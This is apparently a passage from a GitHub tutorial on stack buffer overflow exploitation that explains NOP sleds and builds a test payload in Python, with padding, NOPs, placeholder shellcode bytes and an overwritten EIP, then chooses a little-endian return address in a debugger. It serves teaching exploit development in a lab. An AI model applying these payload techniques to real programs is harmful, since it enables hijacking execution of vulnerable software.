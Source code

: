# The Return Address
Once we have found all the bad characters that must be excluded, we can start thinking about our final payload. What do we need? How can the program execute it? To answer these questions, we must know what NOPs are:

## NOP:

NOP, or “no operation,” is a computer instruction that does nothing; it performs no function and does not alter the state of registers, flags, or memory. NOPs are used as placeholders for future code, to create deliberate time delays, to synchronize operations, to pad code for alignment, to prevent pipeline hazards, and in security exploits.

We will using basics NOPS but keep in mind that also the **polymorphic NOPS** exists, feel free to research about them.

## Finding the right address:
- First, we must modify the previous payload to get an idea of where our shellcode will be located in memory:
```
offset = 267                  # The known amount of bytes to reach EIP
nops = b'\x90' * 100          # The amount of NOPS we want to use in this case
tmp_shellcode = b'\x33' * 150         # A test shellcode just to locate the space of it on the memory
padding = b'E' * (offset  - len(nops) - len(tmp_shellcode))      # The amount of padding we will use
eip = b'k' * 4                # EIP test value
    
payload = padding + nops + tmp_shellcode + eip   
```

- Now let us apply the changes:

```bash
run $(python3 -c "import sys; offset = 267; nops = b'\x90' * 100; tmp_shellcode = b'\x33' * 100; padding = b'E' * (offset - len(nops) - len(tmp_shellcode)); eip = b'k' * 4; payload = padding + nops + tmp_shellcode + eip; sys.stdout.buffer.write(payload)")
```
<img width="1274" height="84" alt="image" src="https://github.com/user-attachments/assets/510b3417-3bec-4428-bd27-40052ec73603" />

<img width="1281" height="66" alt="image" src="https://github.com/user-attachments/assets/c408fa3c-0485-4990-8db1-51cc5b414d2e" />

Now, once we reach our previous breakpoint (or the program crashes), we can examine the program’s memory to look for a return address using ```x/400xb $esp``` (Adjust depending on your case)

<img width="783" height="676" alt="image" src="https://github.com/user-attachments/assets/afc0d116-cb8b-4587-8175-97a2c027a74a" />

As can be seen, the NOPs start at 0xffffd0b0. The idea is to use the return address as the new value for EIP register to redirect the program to where our NOPS are in memory, causing the CPU slides into our shellcode and executing it. 


In this case we choose 0xffffd0c0 as the new value. The address must be written in our payload using little endian format:
```
b'\xc0\xd0\xff\xff'  # New EIP value
```
## Updated test payload:
```
run $(python3 -c "import sys; offset = 267; nops = b'\x90' * 100; tmp_shellcode = b'\x33' * 100; padding = b'E' * (offset - len(nops) - len(tmp_shellcode)); eip = b'\xc0\xd0\xff\xff'; payload = padding + nops + tmp_shellcode + eip; sys.stdout.buffer.write(payload)")
```



